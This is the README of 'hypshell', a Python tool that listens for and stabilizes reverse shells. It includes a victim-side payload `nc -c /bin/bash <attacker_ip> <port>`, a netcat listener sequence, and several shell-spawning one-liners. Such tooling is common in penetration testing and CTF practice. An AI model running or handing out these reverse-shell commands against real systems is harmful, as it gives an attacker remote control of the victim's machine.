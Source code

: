 # hypshell
A simple reverse shell handler and stabilizer
# Usage
`usage: ./hypshell.py [options] port`

You can run the script on the attacking machine to listen for incoming connections.

Run this payload on the victim to start a reverse shell:
`nc -c /bin/bash <attacker_ip> <port>`

To make the script executable you can run: `chmod +x hypshell.py`

**NOTE: To exit the program you have to enter "exit" in the shell session even if you can't read the input**
## Options
```
usage: ./hypshell.py [options] port

positional arguments:
  port                  port number

options:
  -h, --help            show this help message and exit
  -m method, --method method
                        stabilize the connection using the specified method (default: script)
  -v, --verbose         verbose mode
  -i interface, --interface interface
                        specify the network interface to use
  -n, --normal          use normal mode instead of alternate screen
  -c, --stabilize       do not stabilize the connection
  -e, --echo            echo input
  -s shell, --shell shell
                        specify the full path of the shell to use (default: /bin/bash)
  -t, --sigint          handle SIGINT signal
  -r, --sigterm         handle SIGTERM signal
  -q, --sigquit         handle SIGQUIT signal
  -x address, --connect address
                        connect to specified address instead of bind
```
### Examples:
Start a reverse shell listener on port 4242 and start an alternative screen:

`hypshell.py 4242`

Handle `^\` to exit the program:

`hypshell.py 4242 -q`

Use connect mode and verbose:

`hypshell.py 4242 -vx 127.0.0.1`

Set shell to `/bin/sh` and use python3 PTY stabilization method:

`hypshell.py 4242 -s /bin/sh -m python3`

# Built-in Methods
Feel free to append your own methods to the code.
```shell
script: /usr/bin/script -qc {shell} /dev/null
socat: /usr/bin/socat exec:'{shell} -li',pty,stderr,setsid,sigint,sane tcp-connect
python3: python3 -c 'import pty; pty.spawn("{shell}")'
perl: perl -e 'exec "{shell}";'
ruby: ruby -e 'exec "{shell}";'
lua: lua -e 'os.execute("{shell}")'
echo: echo os.system('{shell}')
```
# Why?
This tool is used to replace a basic reverse shell listener such as netcat or socat,
instead of running:
```shell
nc -lnvp 4242
/usr/bin/script -qc /bin/bash /dev/null
export TERM=xterm
^Z
stty raw -echo
fg
```
You can just run 1 simple command that will do everything for you:
```shell
hypshell.py 4242
```
# License
GPLv3
# TODO
- add more stabilization methods
- rewrite the tool in C and upload binaries
- more
